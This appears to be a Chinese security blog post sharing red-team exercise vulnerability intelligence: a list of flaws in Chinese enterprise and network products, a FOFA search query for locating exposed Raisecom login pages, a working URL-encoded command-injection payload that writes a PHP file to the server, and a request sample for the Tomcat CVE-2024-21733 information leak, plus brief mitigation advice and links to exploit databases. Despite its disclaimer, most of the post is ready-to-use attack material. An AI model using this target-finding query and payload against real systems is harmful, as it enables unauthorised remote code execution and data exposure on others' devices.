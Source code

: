 #  24HVV漏洞威胁最新情报(全)   
原创 LHACK安全  LHACK安全   2024-08-19 10:01  
  
**免责声明**  
```
本文所提供的技术、信息或工具仅供学习和参考使用。
请不要将这些信息用于任何非法或不当行为。
使用本文内容引起的任何损失或后果，完全由使用者负责，作者不承担任何责任。
使用这些信息即表示您同意本免责声明，并承诺遵守所有相关法律法规和道德规范。
```  
  
**HVV专项漏洞情报******  
```
K35-1开源-Webuserlogin-RCE
W22-1Windows-TCPIP组件-RCE
Y24-8云时空-社会化商业ERP系统-InformationLeakage
Z17-2紫光-电子档案管理系统-InformationLeakage
B15-1北京星网锐捷网络技术有限公司-乐享智能运维管理平台-SQL
C16-2喰星云-数字化餐饮服务系统-SQL
C16-3喰星云-数字化餐饮服务系统-SQL
D20-3DedeCMS--任意文件读取
F28-5方天云-智慧平台系统-任意文件上传
F8-20泛微-E-Office-InformationLeakage
K34-1开源-ZoneMinder-SQL
R14-3润申信息-企业标准化管理系统-SQL
S38-3赛蓝-企业管理系统-SQL
S44-2上海建业信息科技股份-章管家-SQL
S44-3上海建业信息科技股份-章管家-PermissionAC
T5-3Tomcat--InformationLeakage
W21-1WookTeam-在线团队协作工具-SQL
Y34-2银达云创-智慧校园管理系统-任意文件上传
K33-1开源-数字酒店宽带运营系统-任意文件读取
Y38-2用友-CRM客户关系管理系统-任意文件读取
Z18-1甄云-SRM云平台-JNDI注入
A18-3安美-数字酒店宽带运营系统-任意文件读取
Z15-3中成科-信票务管理系统-SQL
D1-6大华-DDS数字监控系统-SQL
H17-3H3C-iMC智能管理中心-RCE
H46-2H3C-iMC智能管理中心_-RCE
H46-3H3C-iMC智能管理中心_-RCE
H47-1杭州-三汇网关-RCE
H48-1H3C-SecPath下一代防火墙-任意文件上传
J30-2金斗云-HKMP智慧商业软件-SQL
K32-1开源-短视频直播打赏系统-SSRF
K32-2开源-短视频直播打赏系统-任意文件上传
U1-1usdtAdmin-收款管理系统-SQL
U1-2usdtAdmin-收款管理系统-PermissionAC
```  
### 漏洞poc  
```
FOFA语法：body="/images/raisecom/back.gif" && title=="Web user login"
```  
  
payload：  
```
GET /vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+echo+%28phpinfo()%29%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Encoding: gzip, deflate, br
Connection: closeCopy to clipboardErrorCopied
```  
```
```  
  
访问验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2yKqSBD4TXC08sGVRS1Fq8XYldOxDhdg5E9aTzsiaroMjdhm8a2jhr1mGDtYWbFKuyaLRFDxRaQVrlawke0w0AQ/640?wx_fmt=png&from=appmsg "")  
##   
##   
  
**0day专项**  
## 漏洞信息  
  
Apache Tomcat 信息泄露漏洞（CVE-2024-21733）情报。Apache Tomcat 是一个开源 Java Servlet 容器和 Web 服务器，用于运行 Java 应用程序和动态网页。Coyote 是 Tomcat 的连接器，处理来自客户端的请求并将它们传递Tomcat 引擎进行处理。攻击者可以通过构造特定请求，在异常页面中输出其他请求的body 数据,修复版本中通过增加 finally 代码块,保证默认会重设缓冲区 position 和 limit 到一致的状态，从而造成信息泄露。  
  
影响版本  
```

```  
```
从8.5.7到8.5.63
9.0.0-M11到9.0.43Copy to clipboardErrorCopied
```  
```
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,
*/*
;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded
XCopy to clipboardErrorCopied
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2yKqSBD4TXC08sGVRS1Fq8XYldOxDhdgSh6dKeAEBLr26XuClBbgtYAlU47taDTENicictPoqQGrI5A6ueNHC09A/640?wx_fmt=png&from=appmsg "")  
  
同时提供一个简单的漏洞验证工具，规则设置的比较宽，为了防止漏测。工具测试结果仅供参考，不具有权威性。禁止使用工具进行非法操作和攻击，非法操作和攻击须有使用者本人承担，与该文章以及工具开发作者无关。![](https://mmbiz.qpic.cn/mmbiz_png/2yKqSBD4TXC08sGVRS1Fq8XYldOxDhdgfvBoQBRZ7dy3H2HsZCuNaC7sFKYfqWv5nZNVKzLSOmeh4BxiaaoBJuw/640?wx_fmt=png&from=appmsg "")  
  
  
修复方式  
1. 建议Tomcat不直接对外提供服务，Tomcat前面如果有其他中间件代理（如Nginx），则该漏洞无法利用。  
  
1. 在不影响正常业务的情况下，升级至8.5.64、9.0.44等安全版本。  
  
**总结******  
```
以上资源来自：http://kpanda.wiki/#/
```  
  
需要查看更多详情的师傅请自行查看  
  
推荐漏洞库信息：  
```
https://sploitus.com/
http://kpanda.wiki/#/
https://www.yuque.com/u25571586/dyaqbugs?#
```  
  
